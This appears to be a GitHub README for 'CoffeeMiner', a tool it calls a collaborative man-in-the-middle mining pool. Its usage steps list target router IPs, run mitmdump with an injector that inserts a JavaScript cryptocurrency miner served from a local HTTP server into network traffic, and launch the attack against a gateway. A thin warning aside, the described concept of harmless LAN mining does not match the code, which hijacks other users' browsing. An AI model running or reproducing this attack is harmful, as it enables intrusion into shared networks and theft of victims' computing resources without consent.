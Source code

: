# CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool for your wireless networks

**Warning: Don't use this project explicitly. Integrate on your own networks**

## Concept
- Creating a mining algo to run on your Lan network, and use your router to mine while you aren't using your internet

## Use
- install.sh
```
bash install.sh
```
- edit routersip.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```
